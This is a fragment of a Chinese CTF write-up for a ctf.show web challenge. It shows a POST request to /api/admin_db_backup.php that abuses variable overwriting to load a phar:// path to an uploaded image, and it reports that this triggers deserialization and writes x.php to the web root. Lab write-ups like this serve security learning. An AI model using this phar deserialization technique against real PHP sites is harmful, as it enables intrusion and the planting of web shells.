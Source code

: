 得到图像地址

```http
http://97e3beb9-2c4e-4b46-ba65-aa063ddd49e9.challenge.ctf.show/img/00bf23e130fa1e525e332ff03dae345d.png
```

再 POST 利用变量覆盖触发 `/api/admin_db_backup.php`

```
/api/admin_db_backup.php

POST：
pre=phar:///var/www/html/img/00bf23e130fa1e525e332ff03dae345d.pn&db_format=g
```

<img src=".\图片\Snipaste_2023-08-14_11-29-37.png" alt="Snipaste_2023-08-14_11-29-37" style="zoom:80%;" />

此时触发反序列化成功，在网站根目录里写入了 x.php
